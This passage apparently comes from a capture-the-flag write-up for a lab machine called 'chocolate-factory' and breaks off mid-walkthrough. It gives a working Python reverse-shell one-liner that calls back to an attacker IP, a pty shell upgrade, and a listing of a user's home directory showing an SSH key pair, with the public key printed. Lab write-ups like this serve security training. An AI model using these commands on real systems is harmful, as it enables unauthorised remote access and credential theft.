 ```
which python

/usr/bin/python 
```

```
python -c 'socket=__import__("socket");subprocess=__import__("subprocess");s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.191.218",4242));subprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())'
```

<img src="images/reverse-shell.png">


### Upgrading the shell with Python pty module

```python -c 'import pty; pty.spawn("/bin/bash")'```



### Finding an ssh key
```
www-data@chocolate-factory:/home/charlie$ ls -la
ls -la
total 40
drwxr-xr-x 5 charlie charley 4096 Oct  7  2020 .
drwxr-xr-x 3 root    root    4096 Oct  1  2020 ..
-rw-r--r-- 1 charlie charley 3771 Apr  4  2018 .bashrc
drwx------ 2 charlie charley 4096 Sep  1  2020 .cache
drwx------ 3 charlie charley 4096 Sep  1  2020 .gnupg
drwxrwxr-x 3 charlie charley 4096 Sep 29  2020 .local
-rw-r--r-- 1 charlie charley  807 Apr  4  2018 .profile
-rw-r--r-- 1 charlie charley 1675 Oct  6  2020 teleport
-rw-r--r-- 1 charlie charley  407 Oct  6  2020 teleport.pub
-rw-r----- 1 charlie charley   39 Oct  6  2020 user.txt
www-data@chocolate-factory:/home/charlie$ cat teleport.pub
cat teleport.pub
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDhp2s9zdSH3xFgOtnwJQEOBYsQ1TJsXrSUyT1hA4ENH6Cm5FbUDMvXYrfn8yLdXC2nQ1LCaVLuFrjL2y/aQ9e/yUU6YuLUVXaGqVA8vD+6ecQXBRsvgoGoF6YgN59XmnEyYKqqC4lciTOSUAhc1iF/EuvxwFL8cmiH/uqYuqsOhc2HBiMHfOCi/tFS2TXkm/XUPQi2zKvnim9iEJCB2iitTuXjYRklrIiiYcqifWOSh93X+hh84HCDPok6U0fWMUmjIhmDY6YSGdKNSW1n2ZLOZDK/czgA5FCjdl4tv7NudInJwQRFo5s+VvR1HLcqg3v2W352H6NKD90z9Nhh7kvj charlie@chocolate-factory
